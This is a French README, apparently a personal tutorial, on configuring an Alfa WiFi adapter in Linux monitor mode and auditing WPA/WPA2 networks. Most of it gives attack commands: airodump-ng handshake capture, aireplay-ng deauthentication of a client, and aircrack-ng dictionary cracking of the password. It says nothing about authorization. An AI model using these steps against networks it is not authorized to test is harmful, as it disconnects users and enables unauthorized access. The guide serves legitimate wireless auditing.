 ## Installation
1. Prérequis : 
    - Un système Linux (Ubuntu, Debian, Fedora, etc.).
    - Les droits d'administration (commande sudo).
    - Accès à Internet pour télécharger les pilotes.
    
2. Pilotes :
    - `lsusb` : voir si la carte est reconnu en usb
    - `ip link show` : lister interfaces réseaux

    Si rien n'est affiché, rechercher les pilotes et regarder les logs :
        - Dans ce cas j'utilise une AWUS036ACHM : `dmesg | grep mt7610`
   
## Configurations
1. Fichier manquants pour le firmware : `/lib/firmware/mediatek/`
    - `mt7610u.bin` `mt7610e.bin` sont des fichiers de conf à importer dans `/lib/firmware/mediatek/`
    - `git clone git://git.kernel.org/pub/scm/linux/kernel/git/firmware/linux-firmware.git`

2. Recharger les pilotes 
    - `sudo rmmod mt76x0u`
    - `sudo modprobe mt76x0u`

3. Voir si une erreur est présente : `dmesg | grep firmware`


4. Kill les processus
    - `sudo airmon-ng check kill`
        Effet : Cette commande désactive les services responsables des interférences
        Remarque : Après l'audit, vous pouvez redémarrer ces services pour rétablir la gestion classique des connexions WiFi.
![Screenshot_20250526_094939](https://github.com/user-attachments/assets/93654c09-a287-4668-b1f7-52c9f2712781)


## UP la carte et mode monitor
![alfa 1](https://github.com/user-attachments/assets/bf2410dd-acee-4394-b5d3-f8a703d51151)

- `sudo iwconfig // sudo ifconfig` : Montre toutes les interfaces avec les mode des cartes.

- `sudo ifconfig "INTERFACE" down` : Désactive l'interface réseau.
- `sudo iwconfig "INTERFACE" mode monitor` : Active le mode monitor.
- `sudo iwconfig "INTERFACE" mode managed` : Active le mode managed (de base).
- `sudo ifconfig "INTERFACE" up` : Active l'interface réseau.

![alfa 2](https://github.com/user-attachments/assets/4f7cdc10-bcc9-45c6-a035-5c5d57db0191)


## COMMANDES
- `sudo airmon-ng start "INTERFACE"` `sudo airmon-ng stop "INTERFACE"` avec `sudo iw "INTERFACE" del`
    But : Active le mode monitor sur l'interface spécifiée.
    Pourquoi : airmon-ng simplifie la gestion du mode monitor et s'assure qu'il n'y a pas de conflit avec d'autres processus.
- `sudo iw dev` pour voir la carte
- `sudo airodump-ng "INTERFACE"`
    But : Affiche une liste des réseaux WiFi détectés.
    Pourquoi : Cela vous permet de repérer le réseau cible et de récupérer son BSSID, son canal (CH) et son nom (ESSID).
![alfa 3](https://github.com/user-attachments/assets/713b017e-7b15-4695-9f5a-b846c3b543ef)

- `sudo airodump-ng "INTERFACE" --bssid [BSSID] -c [CHANNEL] -w capture`
    Options détaillées :
        --bssid [BSSID] : Filtre les paquets pour capturer uniquement ceux provenant du point d'accès cible (adresse MAC).
        -c [CHANNEL] : Limite la capture au canal WiFi spécifié.
        -w capture : Enregistre les paquets capturés dans un fichier nommé capture-01.cap.
    Pourquoi : La capture est nécessaire pour récupérer une handshake WPA/WPA2, indispensable pour tenter de casser le mot de passe.
![alfa 5](https://github.com/user-attachments/assets/dd844221-6c9d-4a3e-a933-c335364a01a4)

- Lorsqu'une handshake est capturée, vous verrez une ligne similaire à ceci : WPA handshake: [BSSID]
- Si vous ne voyez pas de handshake, cela signifie que :
    Aucun appareil ne s'est connecté ou reconnecté.
    Vous devrez provoquer une déconnexion/reconnexion

- Déconnecter l'appareil avec aireplay-ng
    Une fois que vous avez l'adresse MAC de l'appareil, vous pouvez l'utiliser pour envoyer un paquet de déconnexion (deauth) via aireplay-ng :
    - `sudo aireplay-ng --deauth 10 -a [BSSID] -c [CLIENT_MAC] "INTERFACE"`
        --deauth 10 : Envoie 10 paquets de déconnexion (vous pouvez ajuster ce nombre selon vos besoins). Vous pouvez aussi envoyer un nombre plus élevé pour augmenter les chances de déconnexion.
        -a [BSSID] : L'adresse MAC de l'Access Point (routeur).
        -c [CLIENT_MAC] : L'adresse MAC du client (appareil à déconnecter).
        "INTERFACE" : L'interface WiFi en mode monitor. 
        Important : L'appareil ciblé devrait se déconnecter et tenter une reconnexion automatiquement, ce qui générera une handshake WPA/WPA2.
![alfa 6](https://github.com/user-attachments/assets/bd986815-e0e7-4cf1-9481-3244edf4bff4)

- Vérifier si il y a bien un handshake 
    - `sudo aircrack-ng file.cap` (1 handshake)
    - `sudo tshark -r file.cap eapol`
    Sinon
    - `sudo wireshark -r file.cap` et chercher des fichier oapol
    - `sudo tshark -r file.cap -Y "eapol && wlan.addr==CLIENT"`

![alfa 7](https://github.com/user-attachments/assets/52196726-9a8c-4e04-8fdf-37b93550ea9a)


- `sudo aircrack-ng -w [wordlist.txt] -b [BSSID] capture-01.cap`
    Options détaillées :
        -w [wordlist.txt] : Spécifie un fichier contenant une liste de mots de passe possibles.
        -b [BSSID] : Cible le point d'accès spécifié.
        capture-01.cap : Utilise le fichier de capture généré par airodump-ng.
    Pourquoi : Cette étape tente de casser le mot de passe en utilisant une attaque par dictionnaire.


## Restaurer les services après l’audit

Après avoir terminé, redémarrez les services pour reprendre une utilisation normale du WiFi :

- `sudo systemctl restart NetworkManager`
- `sudo systemctl restart wpa_supplicant`
